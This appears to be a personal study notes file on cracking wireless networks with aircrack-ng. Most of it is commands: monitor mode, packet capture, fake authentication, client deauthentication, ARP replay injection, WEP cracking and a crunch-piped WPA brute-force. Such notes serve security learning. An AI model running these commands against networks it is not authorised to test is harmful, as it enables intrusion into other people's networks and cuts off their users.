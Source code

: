 # Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  

